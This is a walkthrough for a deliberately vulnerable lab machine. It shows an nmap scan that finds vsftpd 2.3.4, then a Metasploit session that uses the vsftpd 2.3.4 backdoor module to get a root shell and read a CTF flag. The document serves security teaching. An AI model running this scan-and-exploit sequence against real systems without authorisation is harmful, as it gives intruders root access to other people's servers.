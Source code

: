 This box is set up to contain a simple VSFTP vulnerability.

Once the box is running, a user can start by performing a simple nmap scan of the vulnerable IP address. The machine is shown to have SSH running on port 22, as expected, and FTP running on port 21, which seems much more intentional. By simply switching to an aggressive scan of that port, nmap reports that the version vsftpd 2.3.4 is in use. This particular version is famously vulnerable, and it is relatively straightforward to get a root shell on machines running this version.

```
knittingirl@knittingirl-OptiPlex-7060:~/Desktop/Simple-Vulnerable-Boxes/Windows Webshell$ nmap 192.168.56.22
Starting Nmap 7.80 ( https://nmap.org ) at 2025-01-06 19:15 EST
Nmap scan report for 192.168.56.22
Host is up (0.0011s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh

Nmap done: 1 IP address (1 host up) scanned in 0.06 seconds
knittingirl@knittingirl-OptiPlex-7060:~/Desktop/Simple-Vulnerable-Boxes/Windows Webshell$ nmap 192.168.56.22 -A -p 21
Starting Nmap 7.80 ( https://nmap.org ) at 2025-01-06 19:15 EST
Nmap scan report for 192.168.56.22
Host is up (0.00024s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 2.3.4
|_ftp-anon: got code 500 "OOPS: cannot change directory:/nonexistent".
Service Info: OS: Unix

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 0.45 seconds

```

The most straightforward way in which to exploit this service is by using metasploit, which is a straightforward framework that comes pre-packaged with a range of popular exploits. The following terminal snippet shows how a root shell can be obtained using this software.

```
knittingirl@knittingirl-OptiPlex-7060:~/Desktop/Simple-Vulnerable-Boxes/$ msfconsole

Metasploit tip: You can use help to view all available commands
                                                  
                                   ___          ____
                               ,-""   `.      < HONK >
                             ,'  _   e )`-._ /  ----
                            /  ,' `-._<.===-'
                           /  /
                          /  ;
              _          /   ;
 (`._    _.-"" ""--..__,'    |
 <_  `-""                     \
  <`-                          :
   (__   <__.                  ;
     `-.   '-.__.      _.'    /
        \      `-.__,-'    _,'
         `._    ,    /__,-'
            ""._\__,'< <____
                 | |  `----.`.
                 | |        \ `.
                 ; |___      \-``
                 \   --<
                  `.`.<
                    `-'



       =[ metasploit v6.4.13-dev-                         ]
+ -- --=[ 2426 exploits - 1250 auxiliary - 428 post       ]
+ -- --=[ 1468 payloads - 47 encoders - 11 nops           ]
+ -- --=[ 9 evasion                                       ]

Metasploit Documentation: https://docs.metasploit.com/

msf6 > search vsftp

Matching Modules
================

   #  Name                                  Disclosure Date  Rank       Check  Description
   -  ----                                  ---------------  ----       -----  -----------
   0  auxiliary/dos/ftp/vsftpd_232          2011-02-03       normal     Yes    VSFTPD 2.3.2 Denial of Service
   1  exploit/unix/ftp/vsftpd_234_backdoor  2011-07-03       excellent  No     VSFTPD v2.3.4 Backdoor Command Execution


Interact with a module by name or index. For example info 1, use 1 or use exploit/unix/ftp/vsftpd_234_backdoor

msf6 > use 1
[*] No payload configured, defaulting to cmd/unix/interact
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > options

Module options (exploit/unix/ftp/vsftpd_234_backdoor):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   CHOST                     no        The local client address
   CPORT                     no        The local client port
   Proxies                   no        A proxy chain of format type:host:port[
                                       ,type:host:port][...]
   RHOSTS                    yes       The target host(s), see https://docs.me
                                       tasploit.com/docs/using-metasploit/basi
                                       cs/using-metasploit.html
   RPORT    21               yes       The target port (TCP)


Exploit target:

   Id  Name
   --  ----
   0   Automatic



View the full module info with the info, or info -d command.

msf6 exploit(unix/ftp/vsftpd_234_backdoor) > set RHOSTS 192.168.56.22
RHOSTS => 192.168.56.22
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > run

[*] 192.168.56.22:21 - Banner: 220 (vsFTPd 2.3.4)
[*] 192.168.56.22:21 - USER: 331 Please specify the password.
[+] 192.168.56.22:21 - Backdoor service has been spawned, handling...
[+] 192.168.56.22:21 - UID: uid=0(root) gid=0(root) groups=0(root)
[*] Found shell.
[*] Command shell session 1 opened (192.168.56.1:39165 -> 192.168.56.22:6200) at 2025-01-06 19:22:56 -0500

whoami
root
ls /root
root.txt
cat /root/root.txt
flag{vsftpd_exploit_is_fun}

```
